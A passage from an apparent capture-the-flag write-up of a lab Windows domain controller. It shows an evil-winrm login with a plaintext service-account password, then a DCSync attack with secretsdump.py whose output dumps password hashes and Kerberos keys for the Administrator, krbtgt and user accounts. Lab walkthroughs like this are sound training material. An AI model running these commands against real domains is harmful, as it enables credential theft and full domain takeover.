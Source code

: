 We connect on the box with the svc_loanmgr account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm).

    :::text
    ruby evil-winrm.rb -u svc_loanmgr -i 10.10.10.175 -p 'Moneymakestheworldgoround!'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> 

TODO account privileges

## DCSync

we can now use a
[DCSync](https://adsecurity.org/?p=1729) attack on the domain using
[impacket's secretdump.py](https://github.com/SecureAuthCorp/impacket/) to get
the users' passwords hashes.

    :::text
    python secretsdump.py 'egotisticalbank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
    EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
    SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:7a2965077fddedf348d938e4fa20ea1b:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
    Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
    Administrator:des-cbc-md5:19d5f15d689b1ce5
    krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
    krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
    krbtgt:des-cbc-md5:c170d5dc3edfc1d9
    EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
    EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
    EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
    EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
    EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
    EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
    EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
    SAUNA$:aes256-cts-hmac-sha1-96:a90968c91de5f77ac3b7d938bd760002373f71e14e1a027b2d93d1934d64754a
    SAUNA$:aes128-cts-hmac-sha1-96:0bf0c486c1262ab6cf46b16dc3b1b198
    SAUNA$:des-cbc-md5:b989ecc101ae4ca1
    [*] Cleaning up... 
